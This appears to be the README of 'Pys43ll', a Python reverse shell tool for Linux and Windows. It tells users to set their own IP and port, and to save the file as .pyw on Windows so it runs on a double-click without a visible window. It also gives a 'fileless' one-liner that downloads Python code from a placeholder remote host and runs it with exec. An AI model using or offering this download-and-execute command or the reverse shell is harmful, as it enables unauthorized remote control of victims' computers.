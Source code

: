 # Pys43ll

A Python Reverse Shell that can be used on Linux and Windows.

# Remember

The use of Windows requires Python3 installed. Remember to add the IP Address and Port of your choosing. On Windows the file can be saved with .pyw to allow a double-click execution.

# How to Use

Windows: .\pys43ll.py

Linux: python3 pys43ll.py

# Fileless Approach

python3 -c ("""from urllib.request import urlopen;url = 'http://< YOUR IP >/< DIRECTORY >/filename.py';outtie = urlopen(url).read();getit = outtie.decode('utf-8');exec(outtie)""")
